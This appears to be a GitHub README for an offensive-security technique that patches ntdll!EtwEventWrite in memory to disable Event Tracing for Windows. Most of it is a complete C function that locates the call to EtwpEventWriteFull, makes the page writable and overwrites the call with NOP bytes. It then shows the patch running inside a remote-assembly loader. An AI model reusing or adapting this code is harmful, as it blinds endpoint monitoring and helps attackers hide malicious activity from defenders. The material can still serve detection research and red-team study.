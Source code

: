 # Patching ETW 

### Event Tracing for Windows (ETW) provides a mechanism to trace and log events that are raised by user-mode applications and kernel-mode drivers.  
### **ntdll!EtwEventWrite** is responsible for writing an event , it's not actually the function that do the Event Writing job, by reversing it, we can see that it calls **ntdll!EtwpEventWriteFull** that do the actual Event Writing :  
  
![IDAetw](https://user-images.githubusercontent.com/110354855/198856050-d5a3d460-0ad7-494b-abb8-018333d2f497.png)  
   
### this call is done at offset (0x214 -  0x1f0 = 0x24) and it takes 5 bytes, the idea here is to write a program that identify 0xe8 the opcode of the call instruction and overwrite this call memory with 5 bytes , so that the call will never done  
  

![TheCall](https://user-images.githubusercontent.com/110354855/198856198-a66c74e6-5833-47d4-a82c-1646206bf61b.png)

  
![EtwPatch](https://user-images.githubusercontent.com/110354855/198856224-12901961-150b-4116-946f-ad149705dc96.png)

### Here is the full Patch function :  
```c
void patchEtwpEventWriteFull(OUT HANDLE& hProc) {

    void* etwAddr = GetProcAddress(GetModuleHandle(L"ntdll.dll"), "EtwEventWrite");

    for (BYTE offset = 0; offset <= 100; offset++) {
        if (*((PBYTE)etwAddr + offset) == 0xe8 && *((PBYTE)etwAddr + offset + 9) == 0xc3) {
            char etwPatch[] = { 0x90, 0x90, 0x90, 0x90, 0x90 };

            DWORD lpflOldProtect = 0;
            unsigned __int64 memPage = 0x1000;
            void* etwAddr_bk = (void*)(((INT_PTR)etwAddr + offset));;

            NTSTATUS NtProtectStatus1 = NtProtectVirtualMemory(hProc, (PVOID*)&etwAddr_bk, (PSIZE_T)&memPage, 0x04, &lpflOldProtect);
            if (!NT_SUCCESS(NtProtectStatus1)) {
                printf("[!] Failed in NtProtectVirtualMemory1 (%u)\n", GetLastError());
                return;
            }

            NTSTATUS NtWriteStatus = NtWriteVirtualMemory(hProc, (LPVOID)((INT_PTR)etwAddr + offset), (PVOID)etwPatch, sizeof(etwPatch), (SIZE_T*)nullptr);
            if (!NT_SUCCESS(NtWriteStatus)) {
                printf("[!] Failed in NtWriteVirtualMemory (%u)\n", GetLastError());
                return;
            }

            NTSTATUS NtProtectStatus2 = NtProtectVirtualMemory(hProc, (PVOID*)&etwAddr_bk, (PSIZE_T)&memPage, lpflOldProtect, &lpflOldProtect);
            if (!NT_SUCCESS(NtProtectStatus2)) {
                printf("[!] Failed in NtProtectVirtualMemory2 (%u)\n", GetLastError());
                return;
            }
        }
        if (*((PBYTE)etwAddr + offset) == 0xc3) {
            break;
        }
    }
    

    std::cout << "[+] Patched etw!\n";

}
```
### Let's test it inside [ExecRemoteAssembly](https://github.com/D1rkMtr/ExecRemoteAssembly)  
  
  
https://user-images.githubusercontent.com/110354855/198856339-644c09c0-7299-4533-9175-716d639fb216.mp4  
  
## As you can see the ntdll!EtwEventWrite failed to write Event for the current process after patching it  




